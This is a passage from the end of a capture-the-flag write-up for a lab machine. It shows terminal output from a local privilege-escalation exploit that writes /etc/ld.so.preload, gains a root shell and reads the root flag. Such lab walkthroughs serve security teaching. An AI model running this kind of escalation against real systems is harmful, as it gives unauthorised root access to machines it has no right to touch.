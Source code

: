 Finally, lets's execute the exploit and acquire the flag:

```bash
www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

We have finally exploited ubuntu like a turtle in a hurricane. Congratulations!